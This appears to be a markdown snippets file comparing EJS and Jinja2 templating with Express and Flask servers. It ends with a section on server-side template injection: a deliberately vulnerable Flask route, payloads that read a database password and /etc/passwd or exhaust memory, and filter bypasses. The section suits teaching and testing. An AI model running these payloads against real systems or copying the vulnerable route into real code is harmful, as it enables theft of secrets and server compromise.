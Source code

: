 # Snippets

## EJS

### Template

```html
<h1>Hello, <%= name %>!</h1>
<ul>
  <% items.forEach(item => { %>
  <li><%= item %></li>
  <% }); %>
</ul>
```

### Server

```js
import express from "express";

const app = express();

app.set("view engine", "ejs");

app.get("/", (_, res) => {
  const data = { name: "Alice", items: ["Apples", "Bananas", "Cherries"] };
  res.render("index", data);
});

app.listen(3000);
```

### Output

```html
<h1>Hello, Alice!</h1>
<ul>
  <li>Apples</li>
  <li>Bananas</li>
  <li>Cherries</li>
</ul>
```

## Jinja2

### Template

```html
<h1>Hello, {{ name }}!</h1>
  {% for item in items %}
  <li>{{ item }}</li>
  {% endfor %}
</ul>
```

### Server

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/")
def home():
    data = {"name": "Bob", "items": ["Pepper", "Turmeric", "Ginger"]}
    return render_template("index.html", **data)

if __name__ == "__main__":
    app.run(port=3000)
```

### Output

```html
<h1>Hello, Bob!</h1>
<ul>
  <li>Pepper</li>
  <li>Turmeric</li>
  <li>Ginger</li>
</ul>
```

### SSTI

#### Server

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/ssti", methods=["GET"])
def ssti():
    template = request.args.get("template")
    return render_template_string(template)

if __name__ == "__main__":
    app.run(port=3000)
```

#### Payloads

```py
{{ "".join("A" * 10**8) }}
{{ config["DATABASE_PASSWORD"] }}
{{ request.__class__.__mro__[1].__subclasses__()[40]("/etc/passwd").read() }}
```

#### Poor Sanitization

```py
template = template.replace("__", "")
template = template.replace("[", "").replace("]", "")
```

#### Filter Bypasses

```py
{{ request["\x5f\x5fclass\x5f\x5f"] }}
{{ request|attr("__class__") }}
{{ "<script>alert(1);</script>"|safe }}
```

